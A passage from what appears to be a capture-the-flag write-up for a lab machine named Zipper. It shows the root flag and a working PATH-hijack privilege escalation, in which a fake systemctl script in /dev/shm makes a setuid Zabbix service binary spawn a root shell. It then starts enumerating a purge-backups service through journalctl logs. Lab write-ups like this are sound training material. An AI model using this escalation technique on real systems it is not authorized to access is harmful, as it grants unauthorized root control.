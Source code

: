Now can grab root flag:

```

root@zipper:/root# cat root.txt 
a7c743d3...

```

Interestingly, this can be done directly from the Zabbix account, in case I wanted to skip user and go right to root:

```

zabbix@zipper:/home/zapper/utils$ echo -e '#!/bin/sh\n\n/bin/sh' > /dev/shm/systemctl 
zabbix@zipper:/home/zapper/utils$ chmod +x /dev/shm/systemctl                         
zabbix@zipper:/home/zapper/utils$ export OLD=$PATH                                    
zabbix@zipper:/home/zapper/utils$ export PATH=/dev/shm                                
zabbix@zipper:/home/zapper/utils$ ./zabbix-service                                    
start or stop?: start
# export PATH=$OLD
# id
uid=0(root) gid=0(root) groups=0(root),113(zabbix)

```

### Path 2 - purge-backups.sh

#### Enumeration

`journalctl` is a program that will query the contents of the `systemd` (a service manager for Linux) journal. If I run it with the `-f` flag, it will wait and display new entries as they are created. For example, if I start `journalctl -f` and then run `./zabbix-service stop`, I see the service stop:

```

Feb 21 05:59:12 zipper systemd[1]: Stopping Zabbix Agent...
Feb 21 05:59:12 zipper systemd[1]: Stopped Zabbix Agent.

```

Starting makes a log as well:

```

Feb 21 06:00:30 zipper systemd[1]: Reloading.
Feb 21 06:00:30 zipper systemd[1]: Started Zabbix Agent.
Feb 21 06:00:30 zipper zabbix_agentd[20068]: Starting Zabbix Agent [Zipper]. Zabbix 3.0.12 (revision 73586).
Feb 21 06:00:30 zipper zabbix_agentd[20068]: Press Ctrl+C to exit.

```

If I just let it run for a while, I’ll see another service:

```

zapper@zipper:/etc/systemd/system$ journalctl -f
-- Logs begin at Sat 2018-09-08 02:45:49 EDT. --Feb 21 06:07:14 zipper systemd[1]: Started Purge Backups (Script).
Feb 21 06:07:14 zipper systemd[1]: Started Purge Backups (Script).
Feb 21 06:07:14 zipper purge-backups.sh[5884]: [>] Backups purged successfully
Feb 21 06:12:14 zipper systemd[1]: Started Purge Backups (Script).
Feb 21 06:12:14 zipper purge-backups.sh[5898]: [>] Backups purged successfully

```
